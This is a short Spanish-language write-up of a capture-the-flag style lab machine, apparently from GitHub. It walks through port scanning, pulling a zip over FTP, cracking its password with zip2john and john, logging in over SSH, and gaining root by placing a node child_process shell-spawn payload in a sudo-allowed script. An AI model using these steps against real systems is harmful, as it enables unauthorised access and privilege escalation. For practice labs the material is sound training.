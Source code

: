 nmap: 21,22

![image](https://github.com/user-attachments/assets/f278b033-4ada-4db4-bd22-f1b64aea118c)

vamos al ftp y nos pasamos el zip

![image](https://github.com/user-attachments/assets/e7fd669e-f52c-4af9-be43-554efac6afdb)

y nos pide contraseña

![image](https://github.com/user-attachments/assets/6b7ccde2-388d-42a7-9702-95da8b0c5a48)

ahora sacamos la contraseña con el comando

     zip2john secretitopicaron.zip

después 

     john has_zip


y da

![image](https://github.com/user-attachments/assets/f6956b23-3ba5-4d7d-9cb8-14159b066c1f)

ahora sacamos el zip

![image](https://github.com/user-attachments/assets/8dc71c63-1151-4a0a-94bb-e6827c905bbe)

y obtenemos la contraseña y usuario, entramos por el ssh, ahora entramos

![image](https://github.com/user-attachments/assets/26df6c64-9617-4635-acc5-895752ec119a)

al hacer sudo -l podemos ver que hay un archivo script.js pero no tiene nada dentro, pero igual esta el node

![image](https://github.com/user-attachments/assets/e6168389-fe56-423e-8d57-2c4f6d3da405)

buscamos el node: https://gtfobins.github.io/gtfobins/node/
dentro del script.js que esta vacío colocamos este comando

     require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]}) 

y ejecutamos el script

     sudo /usr/bin/node /home/mario/script.js

![image](https://github.com/user-attachments/assets/7d297060-b800-40f4-96ee-e1c6898eead9)

y somos root!
